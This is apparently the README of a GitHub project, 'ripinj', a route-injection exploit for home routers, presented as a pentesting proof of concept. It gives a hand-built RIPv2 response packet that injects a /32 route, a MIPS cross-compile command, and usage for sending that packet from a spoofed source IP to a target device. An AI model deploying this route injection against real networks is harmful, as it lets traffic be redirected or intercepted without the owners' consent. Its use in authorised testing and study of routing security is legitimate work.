 # ripinj (RIP Inyector)

Exploit to inject routes into home devices using RIP protocol. Can also be used as a RAW UDP/IP packet generator for UNIX (Linux) devices. 

Pentesting proof of concept for embedded devices (arch MIPS).

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

C compiler (cross compiler for embedded devices such as MIPS or ARM). 

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/ripinj.git
```

Edit configuration: 

```
...
// --------------------
// config 
// --------------------

#define PORT_SRC 520
#define PORT_DST 520


// ----------------
// ripv response: inyectar ruta 8.8.8.8/32 (metrica 2)
// ----------------
const unsigned char RIP[] =
{
        // rip header 
        0x02,                           // command = response
        0x02,                           // version = 2
        0x00, 0x00,                     // 0
        
        // rip entry table
        0x00, 0x02,                     // address family = 2 (ip)
        0x00, 0x00,                     // route tag = 0
        0x08, 0x08, 0x08, 0x08,         // ip address
        0xff, 0xff, 0xff, 0xff,         // subnet mask
        0x00, 0x00, 0x00, 0x00,         // next hop
        0x00, 0x00, 0x00, 0x02          // metric
};
...

```

Compile:

```
mips-linux-gnu-gcc --static -s -mips32 --sysroot=mips-sysroot ripinj.c -o ripinj
```

### Usage 

Copy 'ripinj' to router device an run: 

```
Usage: ./ripinj <spoof source ip> <dest ip>

 ./ripinj 1.2.3.4 5.6.7.8 
RIP Routing injection v0.2
Sending UDP packet...
Done: packet length: 52
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

